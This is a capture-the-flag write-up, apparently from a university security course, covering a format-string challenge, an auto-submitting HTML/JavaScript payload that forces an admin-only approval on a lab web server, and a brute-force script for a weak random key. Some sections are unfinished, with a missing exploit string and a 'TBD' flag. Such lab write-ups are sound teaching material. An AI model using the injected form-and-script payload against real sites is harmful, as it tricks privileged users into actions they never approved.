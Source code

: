 ## British Punctuality

## Final Format
We started by downloading the `program` and running checksec on it:

![Final-1](/Images/Extras/FinalFormat/1.png "1")

Since it has canary and NX we can't use buffer overflow and shellcode, so we need to find another way to get the flag.

Because the `program` requires an input we can try to use a format string vulnerability to leak the flag:

![Final-2](/Images/Extras/FinalFormat/2.png "2")

In order to understand better the `program` we runned inside `gdb` info functions:

![Final-3](/Images/Extras/FinalFormat/3.png "3")

We can see that there's a function called `old_backdoor` that could be our way in. So we analyzed the assembly code of the function:

![Final-4](/Images/Extras/FinalFormat/4.png "4")

To change the return address we need to send a string with the following format:

So now we just need to send the string to the program and we should get the flag.

![Final-5](/Images/Extras/FinalFormat/5.png "5")

```flag{TBD}```

## Echo


## Apply for flag 2

When we open the site we are presented with our `id` for every request needed and there's a input box with a submit button.

Once we submit any text we're redireted to another page. 
![Apply-1](/Images/Extras/ApplyForAFlag/1.png "1")

There's a link to a `page` and when clicked it fowards us to another page with two buttons `Give the flag` and `Mark request as read`.

![Apply-22](/Images/Extras/ApplyForAFlag/2.png "2")

When we click the `Give the flag` button we get a message saying that we need to be admin to do that.
- To activate the `Give the flag` button we need to send a form by post with our `id` to the link that the existing button already sends ("http://ctf-fsi.fe.up.pt:5005/request/" + id + "/approve").
- As this button is disable we need to make a script to click it, so this is the form and script we will submit on the first page where there is an input box:
```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/8faa3db714efe9a28f9d38ff65cb2afb58bc10bc/approve" role="form">          
    <div class="submit">                  
        <input type="submit" id="button" value="Give the flag">   
    </div>  
</form>    

<script type="text/javascript"> 
    document.getElementById('button').click();  
</script>
```

- After submitting this form we should be redirected to the page with the flag. But since sometimes javascript blocks some actions we need to disable it in the browser settings.
- Once we do this we just need to refresh the page and the flag will be displayed.

![Apply-3](/Images/Extras/ApplyForAFlag/3.png "3")

```flag{ff16e17b0ebaf6797a844933bab5e03e}```

## NumberStation3

After running the command `nc ctf-fsi.fe.up.pt 6002` we are presented with a huge sequence of characters including numbers.

![Numbers-1](/Images/Extras/NumberStation3/1.png "1")

Once we had properly analyzed the code noticed that there were functions to encode and decode and generate the sequences, so we assumed this where the ones used to generate the sequence given to us.

![Numbers-2](/Images/Extras/NumberStation3/2.png "2")

The function `gen` generates a random 16-byte key. The function starts by using the os.urandom() method to generate a random 16-byte string, which it assigns to the rkey variable. It then iterates over each byte in rkey and uses a bitwise AND operation to set each byte to either 0 or 1, depending on its original value. Finally, the function returns the resulting 16-byte key as a bytes object.

Seing this we kwen we could bruteforce the key and decode the sequence to get the flag and the amount of cicles would only be 2 to the power of 16 because the number has 16 bits and each one can be 0 or 1.

To do so we used the following script:

```python
sequence = !!Sequence given to us thats too big to be written here!!

for _ in range(2**16) :
	tempSeq = gen()
	aux = dec(tempSeq, unhexlify(sequence)).decode('latin1')
	if (aux[0:4] == "flag"):
		print(aux)
		break
```
And after running it we got the flag.

![Numbers-3](/Images/Extras/NumberStation3/3.png "3")

```flag{414c7f8b83b64b4e60990b0da7089b3a}```


